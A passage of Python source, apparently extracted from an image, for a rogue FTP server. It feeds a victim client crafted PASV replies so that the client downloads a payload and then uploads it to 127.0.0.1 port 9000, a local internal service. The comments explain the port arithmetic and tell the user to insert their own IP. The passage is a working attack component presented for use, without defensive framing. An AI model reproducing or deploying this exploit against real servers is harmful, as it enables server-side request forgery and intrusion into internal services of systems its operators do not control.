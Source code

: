 ```python
    conn.send(b"200 \n")
​
    print(conn.recv(20)) # PASV\r\n The client tells the server to enter passive connection mode
    if count == 1:
        conn.send(b"227 127,0,0,1,4,210\n") # Fill in your own IP here. The server tells the client which ip:port to obtain data. IP and port are separated by commas, and the calculation rules for the port are: 4*256+210=1234
    else:
        conn.send(b"227 127,0,0,1,35,40\n") # Port calculation rules: 35*256+40=9000
​
    print(conn.recv(20)) # The first connection will receive the command RETR /123\r\n, and the second connection will receive the STOR /123\r\n
    if count == 1:
        conn.send(b"125 \n") # Tell the client that you can start the data link
        # Create a new socket to return our payload to the server
        print("Make a connection!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("Disconnect!")
    else:
        conn.send(b"150 \n")
        print(conn.recv(20))
        exit()
​
    # The first connection is to download the file, and you need to tell the client that the download has ended
    if count == 1:
        conn.send(b"226 \n")
    conn.close()
    count += 1
```